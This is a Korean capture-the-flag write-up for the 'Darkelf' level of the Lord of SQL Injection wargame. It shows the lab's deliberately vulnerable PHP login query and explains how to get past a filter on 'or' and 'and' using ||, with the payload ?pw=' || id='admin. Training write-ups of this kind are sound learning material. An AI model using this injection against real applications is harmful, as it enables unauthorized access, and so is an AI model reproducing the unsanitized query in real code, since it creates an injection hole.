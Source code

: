 # **Darkelf**
## 1. 문제의도
or 과 and 없이 인젝션을 할 수 있는가?

## 2. 코드
    <?php
      include "./config.php";
      login_chk();
      dbconnect();  

      if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw]))
        exit("No Hack ~_~");

      if(preg_match('/or|and/i', $_GET[pw]))
        exit("HeHe");

      $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'";

      echo "<hr>query : <strong>{$query}</strong><hr><br>";

      $result = @mysql_fetch_array(mysql_query($query));

      if($result['id'])
        echo "<h2>Hello {$result[id]}</h2>";

      if($result['id'] == 'admin')
        solve("darkelf");

      highlight_file(__FILE__);
    ?>

### 1. preg_match()
우리는 아래와 같은 내용을 사용할 수 없습니다.  
이전의 내용들과 다른 점은 or 과 and를 사용할 수 없다는 점입니다.

    prob | _ | . | () | or | and

### 2. query

    select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'

접근 할 수 있는 부분 : pw GET parameter

### 3. if($result['id'] == 'admin') solve("darkelf");

만약 id가 admin인 행의 값을 가져오는 데 성공한다면 우리는 이 문제를 클리어 할 수 있습니다.

## 3. Solution
우리가 현재 놓인 상황은 계속 사용해 오던 or 와 and를 사용할 수 없다는 것이다.

### 1. || 와 && 사용
우리는 or 과 and 대신 C에서 프로그래밍을 할 때처럼 || 그리고 &&로 대신하여 사용할 수 있다.  
|| 는 Oracle 에서는 CONCAT 과 같이 사용되는 것 같기도 하다.

    pw="password" and id="admin" 과 pw="password"&&id="admin" 은 같은 맥락이다.

### My Answers :

    ?pw=' || id='admin

**Lastly, There can be many answers**

**[Go to see other solutions](https://github.com/moreal/WriteUp/blob/master/Wargame/Lord%20of%20SQL%20Injection/00.%20ReadMe.m)**
